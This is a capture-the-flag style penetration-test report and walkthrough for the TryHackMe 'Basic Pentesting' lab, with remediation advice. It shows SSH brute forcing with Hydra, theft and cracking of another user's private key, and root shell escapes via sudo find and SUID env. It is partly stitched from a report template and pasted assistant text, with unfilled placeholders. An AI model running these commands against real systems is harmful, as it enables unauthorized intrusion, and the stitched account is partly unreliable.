







# Penetration Testing Assessment Report
**Target System:** TryHackMe - Basic Pentesting 
**Date:** October 18, 2026 

---

## 1. Executive Summary

### 1.1 Assessment Overview
This report details the security assessment performed against the **Basic Pentesting** target system. The primary goal was to identify exploitable vulnerabilities from an external perspective, gain a low-privilege foothold, and attempt full system administrative compromise (Root).

### 1.2 Summary of Findings
The target system exhibited significant security deficiencies across network services, credential management, and internal file permissions. Full control of the host (**root access**) was successfully achieved via a multi-stage attack chain.

| Metric | Details |
| :--- | :--- |
| **Initial Foothold Vector** | SSH Brute-Force (Weak User Credentials) |
| **Privilege Escalation Vector** | Insecure Private Key Exposure & Weak Passphrase |
| **Max Privilege Achieved** | `root` (Complete System Compromise) |
| **Overall Risk Rating** |  **HIGH** |

---

## 2. Vulnerability Breakdown & Risk Matrix

The table below outlines the specific vulnerabilities discovered, mapped by severity.

| Risk Level | Vulnerability Description | CVE / Reference | Status |
| :--- | :--- | :--- | :--- |
|  **High** | Weak/Default Credentials on SSH Service | CWE-521 | Exploited |
|  **Medium** | Information Disclosure via Web Directories | CWE-538 | Exploited |
|  **Medium** | Insecure File Permissions (Exposed SSH Private Key) | CWE-732 | Exploited |
|  **Low** | SMB Null Session / User Enumeration Allowed | CWE-16 | Exploited |

---

## 3. Technical Walkthrough & Evidence

### 3.1 Phase 1: Enumeration & Reconnaissance

#### Network Scan

```bash
 nmap -sV -A <TARGET_IP>
```

An initial port scan using `Nmap` identified three active services on the perimeter:
* **Port 22/tcp:** OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
* **Port 80/tcp:** Apache httpd 2.4.18
* **Port 445/tcp:** Samba (SMB)



#### Information Leakage (Web)

```bash
 gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```




Directory busting using `Gobuster` revealed an unindexed directory: `/development/`. 
Inside, two text files (`dev.txt` and `j.txt`) were publicly accessible.




Content review indicated:
1. The system administrators used weak passwords.
2. Two users existed on the system with the initials `J` and `K`.

#### User Enumeration (SMB

Use enum4linux to gather information from Windows and Samba (Server Message Block) hosts by running it from the command line against a target IP address

```bash
 enum4linux -R 500 <TARGET_IP>
```



Using `enum4linux` to query the Samba service, the exact local system usernames were extracted:
* `jan`
* `kay`

### 3.2 Phase 2: Initial Foothold (Exploitation)

#### Service Brute-Force
Leveraging the discovered username `jan` and the context that passwords were weak, a dictionary attack was launched against the SSH service using `Hydra` and the `rockyou.txt` wordlist

```bash
 hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP> -t 4
```




* **Result:** **SUCCESS**
* **Command Output:** `[22][ssh] host: <TARGET_IP>   login: jan   password: [PASSWORD]`

A low-privilege interactive terminal session was successfully established as `jan`.

### 3.3 Phase 3: Privilege Escalation

#### Internal Reconnaissance & Horizontal Escalation
During local system profiling, the home directory of the second user, `kay`, was examined. Due to overly permissive access controls, user `jan` was able to read `kay`'s private configuration files.

```bash
 cat /home/kay/.ssh/id_rsa
```

An encrypted private SSH key (`id_rsa`) was recovered from `/home/kay/.ssh/id_rsa`.

#### Passphrase Cracking
The encrypted key was copied to the local attacking machine, and cracked via `John the Ripper`.




  
Through the exploration, discovered .ssh within the directory, and after gaining access to the folder, identified three main highly valuable files that will aid in gaining access to Kay’s account.

a) authorized_key — A list of permitted public keys for servers is kept here. When a client connects to a server, the server verifies the client’s identity by checking the client’s signed public key, which is saved in this file.
b) id_rsa — It’s a personal key, one that should be kept private at all times. (only you can use it, treat it as your own signature)
c) id_rsa.pub — Can distribute it so that others may confirm that a signature came from your private key. (It’s being used to double-check your signature.)



*** Result ***


* **Result:** Passphrase successfully recovered.
* **Impact:** Horizontal escalation achieved. Logged into SSH directly as `kay`.


#### Vertical Escalation (Root Compromise)
Logged in as `kay`, a final configuration review revealed a critical credential leakage or permission flaw [Specify the exact mechanism you found, e.g., plain-text password in pass.bak or an unprivileged sudo rule]. 

By exploiting this misconfiguration, administrative privileges were obtained:
```bash
kay@ubuntu:~$ sudo su
root@ubuntu:/root# id
uid=0(root) gid=0(root) groups=0(root)
```
**System status: Fully Compromised.**

---

## 4. Comprehensive Remediation Roadmap

To secure the asset against future malicious attacks, the following defensive actions are recommended:

* **[Immediate] Enforce Robust Password Complexity:** Enforce an account policy requiring strong, unique multi-character passwords to completely eliminate the risk of automated SSH brute-forcing.
* **[Immediate] Audit File Permissions:** Correct file access control lists (ACLs) across all home directories. Users must not have read or write access to other users' private `.ssh` directories.
* **[Recommended] Hardening SSH Infrastructure:** Disable password-based authentication inside `/etc/ssh/sshd_config`, enforcing public-key-only access.
* **[Recommended] Secure Web Assets:** Remove internal developmental text documents (`.txt` files) from publicly facing directory structures on the Apache server.


Phase 1: Horizontal Escalation (From jan to kay)

This phase assumes you already have access to the system as user jan and want to pivot to user kay.

Step 1: Locate the Permissive SSH Key

As jan, check if you can read kay's home directory due to misconfigured permissions:
bash
# Check permissions on kay's directory
ls -la /home/kay/.ssh/

# Read and copy the private key
cat /home/kay/.ssh/id_rsa
Use code with caution.

Step 2: Prepare the Key for Cracking

Copy the contents of id_rsa to your attacking machine (e.g., Kali Linux) and save it as kay_id_rsa. Convert it into a format that John the Ripper can understand:
bash
ssh2john kay_id_rsa > kay_hash.txt
Use code with caution.

Step 3: Crack the Passphrase

Use a wordlist (like rockyou.txt) to crack the password hash:
bash
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
Use code with caution.
Note the recovered passphrase.

Step 4: Log in as kay

Fix the permissions on the key file on your attacking machine, then connect via SSH using the cracked passphrase:
bash
chmod 600 kay_id_rsa
ssh -i kay_id_rsa kay@<target_ip>
Use code with caution.

Phase 2: Vertical Escalation (From kay to root)

Once logged in as kay, you need to find a way to become root. Below are the step-by-step methods for the three most common vectors.

Method A: The Sudo Rule Flaw (NOPASSWD)

This happens when an administrator gives a user permission to run a specific command as root without entering a password, but that command allows shell execution.
1. Enumerate Sudo Privileges:bash
sudo -l
Use code with caution.
Look for an entry like: (root) NOPASSWD: /usr/bin/find or /usr/bin/less.
2. Exploit the Binary (e.g., via find):
If find is allowed, run:bash
sudo find . -exec /bin/sh -p \; -quit
Use code with caution.
3. Verify Root Access:bash
id
Use code with caution.

Method B: Plain-Text Credential Leakage

This happens when administrators hardcode passwords in scripts or leave configuration backups behind.
1. Search for Secrets:
Look for backup files, hidden files, or script files in the home directory or /opt:bash
ls -la /home/kay
cat /home/kay/pass.bak
# Or search for files containing the word "password"
grep -ri "password" /home/kay/ 2>/dev/null
Use code with caution.
2. Switch to Root:
If you find the root password (e.g., SuperSecureRootPass123), use it to switch users:bash
su - root
# Enter the password when prompted
Use code with caution.

Method C: Misconfigured SUID Binary

SUID (Set User ID) allows a file to run with the permissions of the file owner (in this case, root) rather than the user running it.
1. Find SUID Binaries:
Search the system for unusual SUID files:bash
find / -perm -4000 -type f 2>/dev/null
Use code with caution.
2. Exploit a Vulnerable Binary (e.g., env):
If a binary like /usr/bin/env has the SUID bit set mistakenly, it can be abused to spawn a root shell:bash
/usr/bin/env /bin/sh -p
Use code with caution.

Phase 3: Defensive Remediation (How to Fix It)

To secure this system and prevent these escalation paths, apply the following fixes:

Vulnerability	Remediation Command / Action
Permissive Home Directories	Restrict access so users cannot read each other's files:
chmod 700 /home/kay
Weak SSH Passphrase	Enforce strong, long passphrases, or use hardware tokens / passphrase-less keys with strict IP binding.
Overly Broad Sudo Rules	Edit /etc/sudoers using visudo. Remove NOPASSWD tags for dangerous binaries, or restrict arguments.
Exposed Credentials	Never store passwords in clear text. Utilize a dedicated Secrets Manager or environment variables with restricted file permissions (chmod 600).
Dangerous SUID Bits	Remove the SUID bit from binaries that do not strictly require it:
chmod u-s /path/to/binary
